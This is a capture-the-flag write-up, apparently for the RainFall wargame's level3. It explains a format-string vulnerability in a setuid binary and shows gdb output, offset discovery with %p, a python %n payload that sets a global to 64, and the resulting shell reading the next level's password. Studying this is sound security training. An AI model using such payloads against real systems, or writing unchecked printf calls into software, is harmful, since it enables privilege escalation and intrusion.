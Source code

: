 <p align="justify">

Level3 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

Level3 rights:
```Shell
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

When testing the binary, we notice that it waits for user input and prints it back to us.
Decompiling with Ghidra on https://dogbolt.org/ shows four things:
- `main()` calls a `v()` function
- `v()` uses a buffer of 520 bytes that is used with `fgets()`, preventing us from doing the usual
exploitation of `gets()`
- however, `printf()` is also used and takes as its sole argument the buffer itself, which is unsafe
- a condition checks if `m` (a global variable) equals `0x40` (64). If true, it opens a terminal for us!

The goal is to replace the content of `m` with 64.
To do so, we can exploit `printf()` with a technique called [Format String Attack](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/):

_"[...]For example, if we can make the format argument "%x.%x.%x.%x", printf will pop off four stack values and print them in hexadecimal, potentially leaking sensitive information.
printf can also index to an arbitrary "argument" with the following syntax: "%n$x" (where n is the decimal index of the argument you want)."_

First, we must find the address of `m`. Disassembling `v()` with gdb shows us an address stored in `EAX`, then compared with 64.
```Shell
(gdb) disas v
[...]
 0x080484da <+54>:    mov    0x804988c,%eax
 0x080484df <+59>:    cmp    $0x40,%eax
[...]
 ```
This is the address of `m` converted into Little Endian: `\x8c\x98\x04\x08`.

With a bit of research, we stumbled upon the `%n` specifier. `%n` calculates how many characters have been printed, then stores the result at a specified `int*`.
Example:
```C
int a = 0;
printf("ABC%n", &a);
printf("%d", a);
```
Output:
```Shell
ABC
3
```

We can abuse `%n` to make it store the value (64) at the location of our choice (address of `m`).
Using the buffer is the best option: since we cannot directly pass the address of `m` directly to `%n`, we can give `%n` an index at which it is stored.
This is how we can use multiple `%p` to print the values on the stack, thus finding at which index our buffer starts:
```Shell
level3@RainFall:~$ ./level3
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

Now we know that it starts at the 4th index. Instead of writing `AAAA` (aka `0x41414141`), we will write
the address of `m` here.
Our buffer will contain [the address of `m`][A * 60], which makes it a size of 64. Perfect for abusing `%n`!
It will calculate a size of 64, then fetch the 4th index to store the value.
So our payload will be:
```Shell
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' > /tmp/payload3
```

And the result is:
```Shell
level3@RainFall:~$ cat /tmp/payload3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

</p>